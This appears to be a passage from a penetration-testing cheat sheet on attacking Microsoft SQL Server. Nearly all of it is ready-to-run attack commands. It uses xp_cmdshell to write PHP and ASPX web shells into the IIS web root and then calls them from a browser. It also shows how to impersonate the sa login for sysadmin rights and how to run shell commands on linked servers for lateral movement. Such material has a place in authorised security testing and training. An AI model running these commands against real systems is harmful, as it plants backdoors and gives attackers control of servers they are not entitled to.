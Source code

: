## Web Shell Creation

**PHP web shell:**
```sql
EXEC xp_cmdshell 'echo ^<?php system($_GET["cmd"]); ?^> > c:\inetpub\wwwroot\shell.php';
```

**ASPX web shell:**
```sql
EXEC xp_cmdshell 'echo ^<%@ Page Language="C#" %^>^<%@ Import Namespace="System.Diagnostics" %^>^<% Response.Write(new Process { StartInfo = new ProcessStartInfo("cmd.exe", "/c " + Request["cmd"]) { UseShellExecute = false, RedirectStandardOutput = true } }.Start().StandardOutput.ReadToEnd()); %^> > c:\inetpub\wwwroot\shell.aspx';
```

Then access via browser:
```
http://$IP/shell.php?cmd=whoami
```

## Privilege Escalation

**Service account impersonation:**
If user has IMPERSONATE permission:
```sql
-- Check for impersonation privileges
SELECT name FROM sys.server_permissions p LEFT JOIN sys.server_principals pr ON pr.principal_id = p.grantee_principal_id WHERE p.permission_name = 'IMPERSONATE';

-- Impersonate sa user
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;

-- Check new privileges
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Linked Server Exploitation

**What are linked servers:**
MSSQL can connect to other database servers (MSSQL, Oracle, etc.). If misconfigured, can be used for lateral movement and privilege escalation.

**Enumerating linked servers:**
```sql
SELECT name FROM master.dbo.sysservers WHERE isremote = 1;
EXEC sp_linkedservers;
```

**Executing queries on linked servers:**
```sql
SELECT * FROM OPENQUERY("LINKED_SERVER", 'SELECT @@version');

-- Execute xp_cmdshell through linked server
SELECT * FROM OPENQUERY("LINKED_SERVER", 'SELECT @@version; EXEC xp_cmdshell ''whoami''');
```
